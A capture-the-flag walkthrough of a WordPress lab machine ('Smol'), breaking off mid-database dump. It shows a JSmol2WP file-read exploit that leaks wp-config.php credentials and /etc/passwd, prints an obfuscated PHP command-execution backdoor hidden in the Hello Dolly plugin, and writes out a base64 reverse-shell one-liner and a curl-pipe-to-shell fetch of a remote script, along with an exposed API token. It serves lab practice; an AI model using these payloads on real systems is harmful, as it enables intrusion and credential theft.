## TL;DR

we start with SSRF vulnerability in `JSmol2WP` plugin to find credentials of `wpuser` and login to the wordpress website. There we can detect backdoor inside `hello-dolly` plugin, and get reverse shell as `www-data` user. 

We find the hash of user `diego` inside the local `mysql` server and crack it, and gain shell as user `deigo`. Then, we can find private key of user `think` and use it to login via ssh.

Then, we can `su` to user `gege` without any password. We find `/home/gege/wordpress.old.zip`, and crack the password using `john`. After extracting we find the password of `xavi` inside `wp_config.php`, and login to `xavi`. We can `sudo` to root and read the root flag.


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```


```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 10:7d:39:6f:e0:44:c2:b9:e1:2d:37:51:97:dd:ab:1c (RSA)
|   256 1e:b0:be:59:d3:04:bb:33:21:1a:23:7e:51:9b:ff:43 (ECDSA)
|_  256 26:43:0b:94:0f:98:a5:8a:7d:70:0b:73:e7:8c:b6:62 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `www.smol.thm` to our `/etc/hosts`.
```bash
10.10.170.100   www.smol.thm
```

### Find SSRF vulnerability and login to wpuser using LFI to get credentials from wp_config.php

As we can see it uses `wordpress`, which is well known CMS.



We'll use `wpscan` with free api token I generated to scan the website for vulnerabilities. (That's why I'm including this here, because it isn't mine for real)

```bash
wpscan --url http://smol.thm/ --api-token A84WpfaaDC3sbFc6WvqlVEvpe7hKJta06iTcavjE9Jw
```

Here we can detect `SSRF` vulnerability, which is very interesting.



```bash
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
```

I went to [https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/](https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/)

and found this PoC:
```bash
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

Let's try it in our command line:
```php
┌──(agonen㉿kali)-[~/thm/Smol]
└─$ curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php"
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */


/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

And now we can approve that there is SSRF, and also we got `LFI`. As we can see, we got the credentials for the mysql local service:
```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

On the same way we can get `/etc/passwd`



```bash
┌──(agonen㉿kali)-[~/thm/Smol]
└─$ curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../../../../etc/passwd"
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
ssm-user:x:1004:1006::/home/ssm-user:/bin/sh
ubuntu:x:1005:1008:Ubuntu:/home/ubuntu:/bin/bash
```

We can detect 4 interesting users:
```bash
think:x:1000:1000:,,,:/home/think:/bin/bash
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```

Using the credentials we got before for the db_user `wpuser`, we managed to conneect to the wordpress website:

```bash
wpuser:kbLSF2Vop#lw3rjDZ629*Z%G
```



After connecting, inside pages we can find private page which is called `Webmaster Tasks!! — Private`



Inside the page we can find several important tasks, one of them is:
```bash
[IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.
```



Okay, it says that there might be a backdoor inside `Hello Dolly` plugin, which this cute plugin [https://wordpress.org/plugins/hello-dolly/](https://wordpress.org/plugins/hello-dolly/).

The location of the plugin will be at `wp-content/plugins/hello.php` or at `wp-content/plugins/hello-dolly/hello.php`, Let's try to get the content using the `LFI` we found before.

As we can see, the file `wp-config.php` is located on the same directory as `wp-content` folder, so we can lay on this older command:
```bash
curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php"
```



Now, let's get `hello.php`:
```php
┌──(agonen㉿kali)-[~/thm/Smol]                                                                                                                                                                                    
└─$ curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php"                                                       
<?php                                                                                                                                  
/**                                                                                                                                                                                                                                         
 * @package Hello_Dolly                                                                                               
 * @version 1.7.2                                                             
 */                                                                                                                                    
/*                                                                                                                                                                                                                                                                            
Plugin Name: Hello Dolly                                                                                                                                                                                                                                                      
Plugin URI: http://wordpress.org/plugins/hello-dolly/                                         
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.                                                                                                                                                                     
Author: Matt Mullenweg                                                                                                
Version: 1.7.2                                                                                                                         
Author URI: http://ma.tt/                                                                                             
*/                                                                                                                                                                                                                                                                            
                                                                                              
function hello_dolly_get_lyric() {                                            
        /** These are the lyrics to Hello Dolly */                                                                                                                                                                                                                            
        $lyrics = "Hello, Dolly                                               
Well, hello, Dolly                                                            
It's so nice to have you back where you belong                                                
You're lookin' swell, Dolly                                                                                                                                  
I can tell, Dolly                                                                             
You're still glowin', you're still crowin'                                    
You're still goin' strong                                                                                                                                                                                                                                                     
I feel the room swayin'                                                                                  
While the band's playin'                       
One of our old favorite songs from way back when                                              
So, take her wrap, fellas                           
Dolly, never go away again                                                                    
Hello, Dolly                                                                                                                                                 
Well, hello, Dolly                                                            
It's so nice to have you back where you belong                                                           
You're lookin' swell, Dolly                                                                   
I can tell, Dolly                                                                                                     
You're still glowin', you're still crowin'                                                                            
You're still goin' strong                                                                     
I feel the room swayin'                                                                                                                                      
While the band's playin'                                                                                                               
One of our old favorite songs from way back when                                                                                       
So, golly, gee, fellas                                                        
Have a little faith in me, fellas                                                                                                                                                            
Dolly, never go away                                                                                                  
Promise, you'll never go away                                                                 
Dolly'll never go away again";                                                                                                         
                                                                                              
        // Here we split it into lines.                                                                                                
        $lyrics = explode( "\n", $lyrics );                                                                           
                                                                                                                                       
        // And then randomly choose a line.                                                                                            
        return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );                                                                                                                 
}                                                                                             
                                                                   
// This just echoes the chosen line, we'll position it later.                                                         
function hello_dolly() {                                           
        eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));                                                                                                            
                                                                                                                                       
        $chosen = hello_dolly_get_lyric();                                                                                                                                                   
        $lang   = '';                                                         
        if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {                                                          
                $lang = ' lang="en"';                                                         
        }                                                                     
                                                                              
        printf(                                                               
                '<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',                                                                                                                                 
                __( 'Quote from Hello Dolly song, by Jerry Herman:' ),        
                $lang,                                                        
                $chosen                                                       
        );                                                                                    
}                                                                             
                                                                                              
// Now we set that function up to execute when the admin_notices action is called.                                                                                                                                                          
add_action( 'admin_notices', 'hello_dolly' );                                 
                                                                              
// We need some CSS to position the paragraph.                                                
function dolly_css() {                                                                        
        echo "                                                                                
        <style type='text/css'>                                                               
        #dolly {                                                                              
                float: right;                                                                 
                padding: 5px 10px;                                                            
                margin: 0;                                                                    
                font-size: 12px;                                                              
                line-height: 1.6666;                                                          
        }                                                                                     
        .rtl #dolly {                                                                         
                float: left;                                                                  
        }                                                                                     
        .block-editor-page #dolly {                                                                                   
                display: none;                                                                
        }                                                                                                             
        @media screen and (max-width: 782px) {                                                                        
                #dolly,                                                                       
                .rtl #dolly {                                                                 
                        float: none;                                                                                  
                        padding-left: 0;                                                                              
                        padding-right: 0;                                                                             
                }                                                                                                     
        }                                                                                                             
        </style>                                                                                                      
        ";                                                                                                            
}                                                                                                                     

add_action( 'admin_head', 'dolly_css' );     
```

We can detect this line:
```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Using [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=Q2lCcFppQW9hWE56WlhRb0pGOUhSVlJiSWx3eE5ETmNNVFUxWEhnMk5DSmRLU2tnZXlCemVYTjBaVzBvSkY5SFJWUmJJbHd4TkROY2VEWmtYREUwTkNKZEtUc2dmU0E9) I decoded the base64 string.
 


We need to understand what are these strings.
```php
if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
```

Using php I found out this is the string `cmd`, So, we found backdoor! Just give commands inside `cmd` GET parameter and execute OS commands.

```bash
┌──(agonen㉿kali)-[~/thm/Smol]
└─$ php -a
Interactive shell

php > echo "\143\155\x64";
cmd
php > echo "\143\x6d\144";
cmd
```

We can try to execute `id`, and check if it's working
```bash
http://www.smol.thm/wp-admin/index.php?cmd=id
```



I tried to execute the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```
However, it didn't work. So I put this inside `rev_shell.sh` and then set up basic python server, and the command I executed on the backdoor was:
```bash
curl http://10.9.2.147:8081/rev_shell.sh|sh
```



### Exploit backdoor inside hello-dolly plugin and get reverse shell as www-data

After logging in, we want to connect to the local `mysql` server to extract all hashes.
Remember we have these config settings:
```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

So, we can connect using this command line, and supply the password `kbLSF2Vop#lw3rjDZ629*Z%G`:
```bash
mysql -u wpuser -p
```

Next, we want to use the `wordpress` database, and extract all hashes from `wp_users` table.

```bash
mysql> use wordpress;                                                                                                                                                                        
Reading table information for completion of table and column names                                                                                                                           
You can turn off this feature to get a quicker startup with -A                                                                                                                               
                                                                                                                                                                                             
Database changed                                                                                                                                                                             
mysql> show tables;                                                                                                                                                                          
+---------------------------+                                                                                                                                                                
| Tables_in_wordpress       |                                                                                                                                                                
+---------------------------+                                                                                                                                                                
| wp_bp_activity            |                                                                                                                                                                
| wp_bp_activity_meta       |                                                                                                                                                                
| wp_bp_invitations         |                                                                                                                                                                
| wp_bp_messages_messages   |                                                                                                                                                                
| wp_bp_messages_meta       |                                                                                                                                                                
| wp_bp_messages_notices    |                                                                                                                                                                
| wp_bp_messages_recipients |                                                                                                                                                                
| wp_bp_notifications       |                                                                                                                                                                
| wp_bp_notifications_meta  |
| wp_bp_optouts             |
| wp_bp_xprofile_data       |
| wp_bp_xprofile_fields     |
| wp_bp_xprofile_groups     |                  
| wp_bp_xprofile_meta       | 
| wp_commentmeta            |                                                                                                                                                                                     
| wp_comments               |                                                                                                                                                                                     
| wp_links                  |                                                                                                                                                                                     
| wp_options                |                                                                                                                                                                                     
| wp_postmeta               |                                                                                                                                                                                     
| wp_posts                  |                                                                                                                                                                                     
| wp_signups                |                                                                                                                                                                                     
| wp_term_relationships     |                                                                                                                                                                                     
| wp_term_taxonomy          |                                                                                                                                                                                     
| wp_termmeta               |                                                                                                                                                                                     
| wp_terms                  |                                                                                                                                                                                                               
| wp_usermeta               |                                                                                                                                                                                                               
| wp_users                  |                                                                                                                                                                                                               
| wp_wysija_campaign        |                                                                                                                                                                                                               
| wp_wysija_campaign_list   |                                                                                                                                                                                                               
| wp_wysija_custom_field    |                                                                                                                                                                                                               
| wp_wysija_email           |                                                                                                                                                                                                               
| wp_wysija_email_user_stat |                                                                                                                                                                                                               
| wp_wysija_email_user_url  |                                                                                                                                                                                                               
| wp_wysija_form            |                                                                                                                                                                                                               
| wp_wysija_list            |                                                                                                                                                                                                                                                 
| wp_wysija_queue           |                                                                                                                                                                                                                                                 
| wp_wysija_url             |                                                                                                                                                                                                                                                 
| wp_wysija_url_mail        |                                                                                                                                                                                                                                                 
| wp_wysija_user            |                                                                                                                                                                                                                                                 
| wp_wysija_user_field      |                                                                                                                                                                                                                                                 
| wp_wysija_user_history    |                                                                                                                                                                                                                                                 
| wp_wysija_user_list       |                                                                                                                                                                                                                                                 
+---------------------------+                                                                                                                                                                                                                                                 
42 rows in set (0.00 sec)                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                              
mysql> select * from wp_users;                                                                                                                                                                                                                                                
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+                                                                        
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |                                                                        
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+                                                                                                                     
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |                                                                                                                     
